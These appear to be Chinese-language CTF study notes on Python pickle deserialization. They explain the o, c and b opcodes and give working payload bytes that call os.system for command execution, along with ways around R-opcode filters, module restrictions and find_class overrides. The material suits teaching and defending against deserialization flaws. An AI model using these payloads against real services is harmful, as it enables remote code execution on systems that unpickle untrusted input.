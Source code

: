 ```text
b'''(cos
system
S'whoami'
o.'''
```
寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象）。
```text
    0: (    MARK
    1: c        GLOBAL     'os system'
   12: S        STRING     'whoami'
   22: o        OBJ        (MARK at 0)
   23: .    STOP
```
## `c`指令码
### 原理
```python
class Student():  
    def __init__(self):  
        self.name = "rxz"  
        self.grade = "G2"

def check(data):  
    if b'R' in data:  
        return 0  
    x = pickle.loads(data)  
    if x != Student(blue.name,blue.grade):  
        return 0  
    return 1
```
`c`指令码的作用是获取全局变量，故而可以通过替换`rxz`为`blue.name`即可
换成指令是`cblue\nname\n`。
原本是`b'\x80\x03c__main__\nStudent\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03X\x03\x00\x00\x00rxzq\x04X\x05\x00\x00\x00gradeq\x05X\x02\x00\x00\x00G2q\x06ub.'`
最后结果是`b'\x80\x03c__main__\nStudent\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00namecblue\nname\nq\x04X\x05\x00\x00\x00gradeq\x05X\x02\x00\x00\x00G2q\x06ub.'`

### 绕过
如果题目对`c`指令进行了限制，只允许包含`__main__`这一个模块，则可以使用变量覆盖。
通过此指令引入的变量，可以看作是原变量的引用，从栈上修改他，也会修改原变量。
- 先通过`__main__.blue`引入这个module
- 然后把一个dict压入栈，内容为`{'name': 'rua', 'grade': 'www'}`
- 执行`b`指令，会改写`__main__.blue.name`和 `__main__.blue.grade`，因此两个变量的值都变为了预期值，后面再正常压入Student对象即可
结果：
 `b'\x80\x03c__main__\nblue\n}(Vname\nVrua\nVgrade\nVwww\nub0c__main__\nStudent\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00ruaX\x05\x00\x00\x00gradeX\x03\x00\x00\x00wwwub.'`
## `b`指令RCE
### 原理
执行build时，当`inst`拥有`__setstate__`方法时，把`state`交给他处理，否则合并到元组内。
所以可以先用build写入`{'__setstate__': os.system}`，把对象的`__setstate__`变为`os.system`，接下来利用`"ls /"`再build对象，会执行`__setstate__("ls /")`，从而达成RCE。
payload：`b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb.'`
执行完代码后清空栈，再压入一个正常的类即可防止报错
payload：`b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb0c__main__\nStudent\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00ruaX\x05\x00\x00\x00gradeX\x03\x00\x00\x00wwwub.'`
### 绕过
针对重写`find_class`的，可以利用`sys.module`获取危险函数。
`sys.module`是一个全局字典，字典的键是模块名，值是模块本身。
所以可以通过`get(sys.modules,"moduleName")`获取危险模块。